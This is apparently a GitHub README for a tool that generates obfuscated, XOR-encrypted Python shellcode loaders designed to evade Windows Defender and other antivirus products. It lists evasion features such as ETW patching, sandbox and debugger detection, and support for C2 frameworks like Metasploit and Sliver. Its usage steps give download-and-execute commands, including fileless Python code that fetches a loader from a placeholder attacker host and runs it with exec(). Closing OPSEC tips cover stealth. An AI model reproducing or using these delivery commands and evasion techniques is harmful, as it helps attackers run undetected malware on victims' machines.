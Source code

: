 ### Invoke-Python-ShellCodeLoader.py
--------------------------------------
'Invoke-Python-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted shellcode loader (Python script) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode injection into the memory of the current process (Python)
  - Shellcode encryption (XOR) and compression (Zlib)
  - Script obfuscation (randomized function and variable names + nested payloads with reflective loading)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Dynamic API resolution for the shellcode injection (via GetProcAddress and LoadLibraryA)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit, Sliver and Havoc

#### USAGE
- STEP 1. Generate an obfuscated shellcode loader (Python script) using a raw shellcode from your preferred C2 framework as input.
```
Example:
C:\path\python-3.10.4> python.exe .\Invoke-Python-ShellCodeLoader.py ".\raw-shellcode.bin" ".\obfuscated_shellcodeloader.py"
```

- STEP 2. Multiple options exist to download & execute the obfuscated shellcode loader (Python script) on a target Windows computer.

  - Option A: Utilize a portable signed Python 3 interpreter (www.python.org) + Fileless delivery of the obfuscated shellcode loader (Python script). 
```
1 - Download a signed portable Python 3 interpreter from 'www.python.org'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://www.python.org/ftp/python/3.10.4/python-3.10.4-embed-amd64.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download from a remote web server and execute directly in memory the obfuscated shellcode loader script on the target Windows machine using Python.
    This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\python> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://your-IP-or-website/obfuscated_shellcodeloader.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\python> python.exe .\Python-fileless-delivery.py 
```
  - Option B: Utilize a portable signed Python 3 interpreter (www.python.org) + Download the obfuscated shellcode loader (Python script) locally before execution.
```
1 - Download a signed portable Python 3 interpreter from 'www.python.org'.
    Example:
    --------
    PS C:\temp\python> wget -uri https://www.python.org/ftp/python/3.10.4/python-3.10.4-embed-amd64.zip -OutFile C:\temp\python\python.zip
    PS C:\temp\python> tar -xf .\python.zip; del .\python.zip;

2 - Download and store the obfuscated shellcode loader script locally on disk before executing it with Python.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\python> powershell -c "wget -uri http://your-IP-or-website/obfuscated_shellcodeloader.py -OutFile C:\temp\python\obfuscated_shellcodeloader.py"
    C:\temp\python> python.exe .\obfuscated_shellcodeloader.py
```
  - Option C: Use PyInstaller to bundle the obfuscated shellcode loader Python script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer.
```
1 - Use PyInstaller to bundle the obfuscated shellcode loader Python script into a single executable (e.g. script.exe)
    Example:
    --------
    C:\Users\auditor\Documents> pip install pyinstaller
    C:\Users\auditor\Documents>  python3 -m pip install --upgrade pip
    C:\Users\auditor\Documents\python\pyinstaller-test> python3 -m PyInstaller -F script.py -i "file.ico" --noconsole
    C:\Users\auditor\Documents\python\pyinstaller-test> dir dist
    09/04/2025  11:54 PM         5,612,531 script.exe

2 - Download and execute the obfuscated shellcode loader "script.exe" on a target Windows computer
    The obfuscation and encryption allow to evade static analysis by most antivirus solutions, though this method may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp> powershell -c "wget -uri http://your-IP-or-website/script.exe -OutFile C:\temp\script.exe"
    C:\temp> script.exe
```

#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating your obfuscated shellcode loader.
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
